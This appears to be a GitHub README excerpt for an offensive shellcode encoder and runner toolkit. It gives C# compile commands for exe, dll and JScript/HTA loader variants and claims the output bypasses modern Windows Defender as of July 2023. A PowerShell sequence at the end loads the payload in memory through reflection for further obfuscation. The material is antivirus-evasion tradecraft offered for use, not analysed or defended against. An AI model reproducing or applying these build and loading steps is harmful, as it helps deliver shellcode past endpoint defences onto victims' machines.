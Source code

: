 ### Rust Compiling

It does not matter what you do to run the encoders, but for the shellcode, make sure you are compiling the shellcode runner using the right toolchain if you are running it on windows. I used the windows-gnu one.

### CSharp Compiling

I use the BigInteger to make my life easier. Compilation for the executable is:
``` powershell
PS> csc /t:exe /out:shell.exe /r:[path_to_System.Numerics.dll_use_the_GAC_MSIL_one] .\polynomial_exe.cs

PS> csc /t:library /out:shell.dll /r:[path_to_System.Numerics.dll_use_the_GAC_MSIL_one] .\polynomial_dll.cs
PS> csc /t:library /out:shell.dll /r:[path_to_System.Numerics.dll_use_the_GAC_MSIL_one] .\polynomial_js.cs
```
Convert the js one to JScript or an HTA as you wish. As of July 2023, it will bypass modern Windows Defender.

As a side note, for further obfuscation, the exe is to be run in-memory with reflection. The entrypoint is [Polynomial]::eval()
``` powershell
# can also be condensed into a one-liner
PS> $bytes = [System.IO.File]::ReadAllBytes("C:\shellcode.exe")
PS> [Reflection.Assembly]::Load($bytes)
PS> [Polynomial]::eval()
```
